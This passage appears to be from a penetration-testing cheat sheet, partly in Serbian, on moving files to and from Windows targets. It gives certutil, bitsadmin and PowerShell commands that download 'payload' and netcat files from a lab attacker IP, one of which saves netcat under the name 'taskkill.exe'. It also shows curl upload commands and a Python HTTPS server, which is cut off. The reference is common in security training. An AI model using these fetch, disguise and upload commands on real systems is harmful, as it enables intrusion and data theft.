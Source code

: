 **Windows**

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

### Postavljanje fajlova

* [**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)
* [**SimpleHttpServer ispisuje GET i POST zahteve (uključujući zaglavlja)**](https://gist.github.com/carlospolop/209ad4ed0e06dd3ad099e2fd0ed73149)
* Python modul [uploadserver](https://pypi.org/project/uploadserver/):

```bash
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver
# With basic auth:
# python3 -m uploadserver --basic-auth hello:world

# Send a file
curl -X POST http://HOST/upload -H -F 'files=@file.txt'
# With basic auth:
# curl -X POST http://HOST/upload -H -F 'files=@file.txt' -u hello:world
```

### **HTTPS Server**

### **HTTPS Server**

```python
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

### PYTHON 2
import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
###

### PYTHON3
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

```